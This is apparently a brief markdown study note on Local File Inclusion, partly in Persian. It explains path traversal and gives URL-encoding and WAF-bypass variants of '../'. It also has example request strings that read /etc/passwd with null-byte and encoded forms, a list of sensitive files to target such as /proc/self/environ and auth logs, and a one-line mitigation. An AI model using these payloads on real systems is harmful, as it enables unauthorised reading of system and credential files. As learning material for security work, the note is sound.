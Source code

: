 # Local File Inclusion

## Concept
- از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
- همچنین فایل های تصادفی مانند /etc/passwd
- همچنین ممکن است منجر به Information Disclosure شود
- این حمله Directory Traversal هم می شود

## Bypass
- Encoding
  - ```.``` => %2e
  - ```/``` => %2f
  - ```../``` => %2e%2e%2f
- WAF Bypass
  - ```../``` => ```..././``` 
  - ```../``` => ```....//``` 

## Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 
  - ```example2.php?page=intro%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00``` 

## Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
## Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

